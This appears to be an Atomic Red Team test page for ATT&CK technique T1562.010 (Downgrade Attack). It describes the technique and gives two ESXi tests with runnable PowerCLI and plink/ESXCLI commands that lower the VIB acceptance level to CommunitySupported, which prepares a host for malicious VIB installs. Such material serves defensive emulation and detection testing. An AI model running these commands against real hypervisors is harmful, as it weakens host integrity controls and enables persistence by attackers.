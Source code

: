 # T1562.010 - Impair Defenses: Downgrade Attack
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1562/010)
<blockquote>Adversaries may downgrade or use a version of system features that may be outdated, vulnerable, and/or does not support updated security controls. Downgrade attacks typically take advantage of a system’s backward compatibility to force it into less secure modes of operation. 

Adversaries may downgrade and use various less-secure versions of features of a system, such as [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059)s or even network protocols that can be abused to enable [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557) or [Network Sniffing](https://attack.mitre.org/techniques/T1040).(Citation: Praetorian TLS Downgrade Attack 2014) For example, [PowerShell](https://attack.mitre.org/techniques/T1059/001) versions 5+ includes Script Block Logging (SBL) which can record executed script content. However, adversaries may attempt to execute a previous version of PowerShell that does not support SBL with the intent to [Impair Defenses](https://attack.mitre.org/techniques/T1562) while running malicious scripts that may have otherwise been detected.(Citation: CrowdStrike BGH Ransomware 2021)(Citation: Mandiant BYOL 2018)(Citation: att_def_ps_logging)

Adversaries may similarly target network traffic to downgrade from an encrypted HTTPS connection to an unsecured HTTP connection that exposes network data in clear text.(Citation: Targeted SSL Stripping Attacks Are Real)(Citation: Crowdstrike Downgrade)</blockquote>

## Atomic Tests

- [Atomic Test #1 - ESXi - Change VIB acceptance level to CommunitySupported via PowerCLI](#atomic-test-1---esxi---change-vib-acceptance-level-to-communitysupported-via-powercli)

- [Atomic Test #2 - ESXi - Change VIB acceptance level to CommunitySupported via ESXCLI](#atomic-test-2---esxi---change-vib-acceptance-level-to-communitysupported-via-esxcli)


<br/>

## Atomic Test #1 - ESXi - Change VIB acceptance level to CommunitySupported via PowerCLI
An adversary can change the VIB acceptance level to CommunitySupported to downgrade the acceptance criteria.This can be accomplished via PowerCLI. Afterwards an adversary may proceed to installing malicious VIBs on the host.
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-detection-hardening)

**Supported Platforms:** Linux


**auto_generated_guid:** 062f92c9-28b1-4391-a5f8-9d8ca6852091





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-PowerCLIConfiguration -InvalidCertificateAction Ignore -ParticipateInCEIP:$false -Confirm:$false 
Connect-VIServer -Server #{vm_host} -User #{vm_user} -Password #{vm_pass}
(Get-EsxCli -VMHost #{vm_host} -V2).software.acceptance.set.Invoke(@{level = "CommunitySupported"})
Disconnect-VIServer -Confirm:$false
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if VMWARE PowerCLI PowerShell Module is installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name VMware.PowerCLI -ListAvailable
if (-not $RequiredModule) {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name VMware.PowerCLI -Confirm:$false
```




<br/>
<br/>

## Atomic Test #2 - ESXi - Change VIB acceptance level to CommunitySupported via ESXCLI
An adversary will change the VIB acceptance level to CommunitySupported to downgrade the acceptance criteria via ESXCLI. Afterwards an adversary may proceed to installing malicious VIBs on the host.
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-detection-hardening)

**Supported Platforms:** Linux


**auto_generated_guid:** 14d55b96-b2f5-428d-8fed-49dc4d9dd616





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|
| plink_file | Path to plink | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;plink.exe|
| cli_script | Path to script with commands to change acceptance level | path | PathToAtomicsFolder&#92;T1562.010&#92;src&#92;esx_community_supported.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo "" | "#{plink_file}" "#{vm_host}" -ssh  -l "#{vm_user}" -pw "#{vm_pass}" -m "#{cli_script}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if plink is available.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "#{plink_file}"
```




<br/>
